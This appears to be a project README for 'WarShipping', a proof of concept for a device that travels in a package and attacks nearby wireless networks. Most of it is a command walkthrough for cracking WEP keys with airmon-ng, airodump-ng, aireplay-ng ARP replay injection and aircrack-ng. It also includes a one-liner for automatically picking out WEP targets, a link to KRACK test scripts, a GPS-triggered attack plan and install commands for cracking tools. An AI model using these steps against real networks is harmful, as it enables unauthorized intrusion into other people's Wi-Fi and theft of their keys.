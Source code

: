 # WarShipping
WarShipping remixed as a proof of concept.

WEP cracking using airmon-ng
- iwconfig
- airmon-ng start <wireless card>
- airodump-ng <mon card>
- airodump-ng <mon card> --bssid <bssid> -w <write to file> file
(if theres not enough traffic to crack the password)
on another tab:
- aireplay-ng -3 -b <bssid> -h <host connected to network> <mon card>
(cracking the password)
- aircrack-ng <file>.cap

Test 0 (Manual attack)
- manual testing worked, arp poisoning aided but not required with active network.
- one terminal window required unless arp poisoning required.

Test 1 (Automation attempt)
- airodump-ng <mon card> -w <write to> file
- file .csv contains wireless points caught in monitor mode
- cat *.csv | grep -i wep | cut -d ',' -f 1
  - above bash oneliner isolates the bssid of each access point
  
WPA2 (KRACK attack)
- https://github.com/vanhoefm/krackattacks-scripts
- script above is for testing krack attack vulnerability instead of attacking the Wi-Fi security.

When GPS location has been reached the device will instead of attacking all networks will scan them for vulnerabilities.
https://www.youtube.com/watch?v=N8fH0nc9v9Q
https://sparklers-the-makers.github.io/blog/robotics/use-neo-6m-module-with-raspberry-pi/


Apt update
Apt dist-upgrade
Apt-get install reaver
Apt-get install wash
Apt-get install aircrack-ng
Git clone https://github.com/vanhoefm/krackattacks-scripts
 
